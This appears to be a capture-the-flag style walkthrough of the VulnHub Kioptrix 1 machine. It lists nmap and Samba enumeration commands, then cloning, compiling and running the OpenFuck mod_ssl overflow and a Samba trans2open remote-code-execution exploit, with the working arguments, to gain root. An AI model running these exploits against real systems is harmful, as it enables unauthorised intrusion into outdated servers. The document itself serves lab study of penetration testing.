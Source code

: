 # Kioptrix 1 - VulnHub

**netdiscover -i eth0**

![kio1](https://user-images.githubusercontent.com/15195048/95851963-4b32d000-0d53-11eb-801a-7851796a3b23.png)

**IP 192.168.1.10**

**nmap -sC -sV 192.168.1.10**

![kio2](https://user-images.githubusercontent.com/15195048/95851965-4c63fd00-0d53-11eb-9b2a-855be54df5ba.png)

## 1. Exploiting Apache 

OpenSSH 2.9p2 (protocol 1.99)
Http mod_ssl/2.8.4
This module provides SSL v2/v3 and TLS v1 support for the Apache HTTP Server. 
Exploits: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow 

**searchsploit mod_ssl**

![kio3]https://user-images.githubusercontent.com/15195048/95851966-4cfc9380-0d53-11eb-911e-2d0536d6b4b3.png
 
## A) ExploitDB 
Link:https://www.exploit-db.com/exploits/764
number of errors
FIX
https://medium.com/@snowshoe/how-to-compile-openfuckv2-c-69e457b4a1d1

## B) GITHUB

Link:https://github.com/exploit-inters/OpenFuck

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
git clone https://github.com/heltonWernik/OpenFuck.git
apt-get install python3.8-venv
apt-get install libssl-dev
gcc -o OpenFuck OpenFuck.c -lcrypto
./OpenFuck
./OpenFuck 0x6a 192.168.80.145 443 -c 40
error
./OpenFuck 0x6b 192.168.80.145 443 -c 40 works
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


![kio4]https://user-images.githubusercontent.com/15195048/95851969-4cfc9380-0d53-11eb-98d4-8b7642f08530.png

## 2. Samba Exploit

** 1.enum4linux -a 192.168.1.10

2.smbclient 192.168.1.10 or smbclient -N -L \\192.168.1.10\\

3.nmap -p 139 --script=smb-vuln* 192.168.1.10

4.smbmap -P 139 -H 192.168.1.10 **

5.samba_version.py Github
https://github.com/amitn322/smb-version/blob/master/samba_version.py
python smb-version/samba_version.py -s 192.168.1.10

![kio6]https://user-images.githubusercontent.com/15195048/95851970-4d952a00-0d53-11eb-9d2a-27844dc33287.png

Samba2.2
searchsploit samba 2.2

![kio27]https://user-images.githubusercontent.com/15195048/95851974-4e2dc080-0d53-11eb-9467-a88125c91e68.png


Samba < 2.2.8 (Linux/BSD) - Remote Code Execution


https://user-images.githubusercontent.com/15195048/95851978-4ec65700-0d53-11eb-8007-ac8f11e13e5f.pnghttps://user-images.githubusercontent.com/15195048/95851983-4ec65700-0d53-11eb-98ea-370a424c4437.png

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
gcc 10.c
./a.out -b -o 192.168.1.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![kio8]https://user-images.githubusercontent.com/15195048/95851983-4ec65700-0d53-11eb-98ea-370a424c4437.png

Rooted
